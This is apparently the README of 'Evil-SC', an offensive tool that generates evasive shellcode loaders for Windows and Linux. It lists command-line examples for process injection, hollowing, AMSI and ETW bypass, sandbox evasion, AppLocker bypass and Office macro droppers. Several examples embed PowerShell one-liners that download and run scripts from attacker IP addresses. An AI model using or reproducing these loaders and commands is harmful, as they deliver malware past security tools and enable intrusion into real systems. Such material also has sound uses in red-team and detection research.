


<h1 align="center">
  <br>
  <a href="https://github.com/v4resk/evil-sc/"></a>
</h1>

## Introduction

Evil-SC is a template-based shellcode loader written in Python. It allows you to generate loader files for shellcode execution and injection across multiple platforms and languages. The tool supports:

> WORK IN PROGRESS !

- **Multiple Platforms Support**: Windows (C++, C#, PowerShell, VBA, VBScript, JavaScript, HTA, ASPX, WIX) and Linux (C++)
- **Direct & Indirect Syscalls**: [SysWhispers3](https://github.com/klezVirus/SysWhispers3) and [GetSyscallStub](https://www.ired.team/offensive-security/defense-evasion/retrieving-ntdll-syscall-stubs-at-run-time) for Direct Syscall and [NullGate](https://github.com/0xsch1zo/NullGate) for Indirect Syscalls
- **Chained Encryption**: Multiple encryption algorithms can be chained
- **Chained Evasion Techniques**: Various sandbox evasion methods that can be chained 
- **Process Injection**: Different injection and execution techniques
- **Obfuscation**: LLVM-based code obfuscation


## Installation

```bash
# Install dependencies
sudo apt update
sudo apt install mono-complete mingw-w64 powershell wixl

# Install the repo
git clone https://github.com/yourusername/Evil-SC.git
cd Evil-SC

python -m virtualenv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Demo



## Usage

The tool uses a platform-based command structure. First, you select the platform and language, then specify the options for that platform.

```bash
python evil-sc.py --help
```

### Available Platforms

- `windows_cpp` - Windows C++ loader
- `windows_cs` - Windows C# loader
- `windows_pwsh` - Windows PowerShell loader
- `windows_vba` - Windows VBA (Office Macros) loader
- `windows_vbs` - Windows VBScript loader
- `windows_js` - Windows JavaScript loader
- `windows_hta` - Windows HTA (HTML Application) loader
- `windows_aspx` - Windows ASPX loader
- `windows_wix` - Windows Installer XML (WIX) loader (for .msi files)
- `linux` - Linux C++ loader
- `utils` - Utility functions for shellcode

### Command Line Options

Each platform has its own set of options. Here's an example for Windows C++:

```
-m, --method            Shellcode-loading method
-e, --encrypt           Encryption/Encoding algorithm (can be specified multiple times for chaining)
--llvmo                 Use Obfuscator-LLVM to compile
-p, --process           Process name for shellcode injection (use "self" for current process)
-em, --evasion-module   Evasion module (can be specified multiple times)
-sc, --syscall          Syscall execution method (SysWhispers3, GetSyscallStub, NullGate)
--sw-method             Syscall recovery method for SysWhispers3
-o, --outfile           Output filename
```


## Examples


### Windows C# Loaders

```bash
# HalosGate with chained encryption and evasion
python evil-sc.py windows_cs -m HalosGate staged.raw -e vortex -e xor -e aes -em sleep:10 -em RareAPI -em amsi -o loader

# DInvokeHollow for process injection
python evil-sc.py windows_cs -m DinvokeHollow staged.raw -e vortex -e xor -e aes -em sleep:10 -em RareAPI -em amsi -o loader

# CreateRemoteThread with process injection
python evil-sc.py windows_cs -m CreateRemoteThread rev.raw -e rc4 -e base64c -e vortex -p explorer.exe -em sleep:7 -em RareAPI -em amsi -o loader

# InstallUtil AppLocker bypass
python evil-sc.py windows_cs -m InstallUtil rev.raw -e vortex -e xor -e aes -em sleep:10 -em RareAPI -em amsi -o loader

# Custom PowerShell runspace
python evil-sc.py windows_cs -m PowerSpace "whoami" -e base64 -e xor -e aesc -o loader

# RegAsm custom runspace
python evil-sc.py windows_cs -m RegSvcsPwsh.dll 'iex(iwr http://10.10.14.19/run.txt -UseBasicParsing)' -e xor -e base64 -e aesc -o loader
```

### Windows C++ Loaders

```bash
# DLL loader with SysWhispers3
python evil-sc.py windows_cpp -m CreateRemoteThread.dll rev.raw -sc SysWhispers3 -e aesc -e base64 -e serpentine -em sleep:7 -em RareAPI -o loader

# Module stomping technique
python evil-sc.py windows_cpp -m LocalModuleStomping rev.raw -e vortex -e xor -e aesc -em sleep:10 -em RareAPI -o loader

# SysWhispers3 Direct Syscalls in jumper_randomized mode
python evil-sc.py windows_cpp msf.raw -m CreateFiber -e aesc -e serpentine -sc SysWhispers3 --sw-method jumper_randomized -em sleep -o stealthy_loader

# LLVM obfuscation
python evil-sc.py windows_cpp -m CreateLocalThread -e xor --llvmo -o obfuscated_loader
```

### PowerShell Loaders

```bash
# Reflective loading (2-stage)
## Stage1
python evil-sc.py windows_cs -m DinvokeHollow rev.raw -e aes -e xor -e aesc -em amsi -o stage1
## Stage2
python evil-sc.py windows_pwsh -m reflection stage1.exe -c proudcat.catloading -f Main -e securestring -em amsi -o stage2

# DelegateType execution
python evil-sc.py windows_pwsh -m DelegateType staged.raw -e aesc -e vortex -em amsi -o loader

# Process hollowing
python evil-sc.py windows_pwsh -m PowerHollow rev.raw -e aesc -e vortex -em amsi -o loader
```

### VBA/Office Macros

```bash
# VBA XML Part with DLL dropper 
python evil-sc.py windows_cpp -m CreateRemoteThread.dll msf.raw -sc SysWhispers3 -e aesc -e base64 -e serpentine -o evil-sc.dll
python evil-sc.py windows_vba -m MsiExecDroper evil-sc.dll -o macro

# VBA with WMI execution
python evil-sc.py windows_vba -m WmiExec -e xor -e cesar "powershell -c iex(iwr http://10.10.14.19/run.txt -UseBasicParsing)" -o macro

# VBA with IP range evasion
python evil-sc.py windows_vba -m CreateLocalThread -e cesar -e xor -em iprange:192.168.157.0/24 -em sleep:2 --x86 rev32.raw rev.raw -o macro
```

### HTA/JS/ASPX Loaders

```bash
# HTA PowerShell loader
python evil-sc.py windows_hta -m PowerShooter 'iex(iwr http://192.168.45.206/run.ps1)' -o loader -v4

# ASPX loader with NtMapViewOfSection
python evil-sc.py windows_aspx msf.raw -m NtMapViewOfSection -e xor -em RareAPI -e aes -o loader

# Javascript loader
python evil-sc.py windows_js -m VortexShooter 'iex(iwr http://192.168.45.206/run.ps1)' -o loader -v4
```


## Supported Features by Platform

### Encryption/Encoding Options

| Encoder | Win C++ | Win C# | PowerShell | VBA | VBS | JS | HTA | ASPX | WIX | Linux |
|---------|---------|--------|------------|-----|-----|----|-----|------|-----|-------|
| XOR | ✅ | ✅ | ✅ | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ✅ |
| AES | ✅ | ✅ | ✅ | ✅ | ❌ | ❌ | ❌ | ✅ | ❌ | ✅ |
| RC4 | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Base64 | ✅ | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ✅ |
| UUID | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Serpentine* | ✅ | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ✅ |
| Vortex* | ✅ | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ✅ |
| DES3 | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| NOP | ✅ | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Custom AES* (aesc) | ✅ | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Custom Base64* (base64c) | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Custom RC4* (rc4c) | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |

> **Note**: Entries marked with an asterisk (*) are custom implementations that do not rely on native cryptographic functions. These implementations re-implement the cryptographic logic from scratch to avoid detection based on API calls to cryptographic libraries.

### Syscall Types Support

| Syscall Type | Win C++ | Win C# | PowerShell | VBA | VBS | JS | HTA | ASPX | WIX | Linux |
|--------------|---------|--------|------------|-----|-----|----|-----|------|-----|-------|
| Direct (SysWhispers3) | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Direct (GetSyscallStub) | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Indirect (NullGate) | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Standard API | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ | ✅ |

### Evasion Techniques

| Evasion Technique | Win C++ | Win C# | PowerShell | VBA | VBS | JS | HTA | ASPX | WIX | Linux |
|-------------------|---------|--------|------------|-----|-----|----|-----|------|-----|-------|
| Sleep Evasion | ✅ | ✅ | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ✅ |
| AMSI Bypass | ❌ | ✅ | ✅ | ✅ | ❌ | ✅ | ❌ | ❌ | ❌ | ❌ |
| ETW Bypass | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Domain Checking | ✅ | ✅ | ❌ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Username Checking | ✅ | ✅ | ❌ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Hostname Checking | ✅ | ✅ | ❌ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| IP Range Checking | ✅ | ✅ | ❌ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Perun's Fart | ❌ | ✅ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ | ❌ |
| Rare API Detection | ✅ | ✅ | ❌ | ❌ | ❌ | ❌ | ✅ | ❌ | ❌ | ❌ |

### Execution/Injection Methods

- **Windows C++**: CreateThread, CreateLocalThread, CreateRemoteThread, QueueUserAPC, CreateFiber, ThreadPoolCallBack, VectoredHandler, WndProc, LocalModuleStomping, RemoteModuleStomping, Exec

- **Windows C#**: CreateThread, CreateRemoteThread, QueueUserAPC, Reflection, InstallUtil, RegSvcs, MssqlRunner, PowerSpace, Venoma, DinvokeHollow, MockingJay, HalosGate, NtMapViewOfSection

- **PowerShell**: Reflection, DelegateType, PowerInject, PowerHollow, PowerHollowObf, Exec, Cmd

- **VBA**: CreateLocalThread, CreateRemoteThread, QueueUserAPC, WmiExec, Cmd, DllExecDroper

- **VBScript**: CreateLocalThread, CreateRemoteThread, WmiExec

- **Windows JavaScript**: PowerShooter, VortexShooter, SmallShooter

- **Windows HTA**: PowerShooter, VortexShooter, SmallShooter, WmiExec

- **Windows ASPX**: CreateThread, CreateRemoteThread, NtMapViewOfSection

- **Windows WIX**: Cmd, CmdFail, DropExe

- **Linux C++**: SimpleExec, Pthread, LD_PRELOAD, LD_LIBRARY_PATH

## Known Issues & Planned Features

- **BUG:** SecureString is not supported for PowerShell if after some encryption methods (AES mainly)
- **FEATURE:** Support for DLL copy (for DLL sideloading)  
- **FEATURE:** Obfusaction modules (after compile / generation)

## Contributing

Contributions are welcome! Please feel free to submit a Pull Request.

## License

This project is licensed under the MIT License - see the LICENSE file for details.

## Disclaimer

This tool is provided for educational and research purposes only. The author is not responsible for any misuse or damage caused by this program. Always use responsibly and ethically.

## Resources

- [Inceptor](https://github.com/klezVirus/inceptor) for the initial idea and architecture of the project
- [SysWhispers3](https://github.com/klezVirus/SysWhispers3) for direct syscalls support
- [GetSyscallStub](https://www.ired.team/offensive-security/defense-evasion/retrieving-ntdll-syscall-stubs-at-run-time) for direct syscalls support
- [NullGate](https://github.com/0xsch1zo/NullGate) for indirect syscalls support
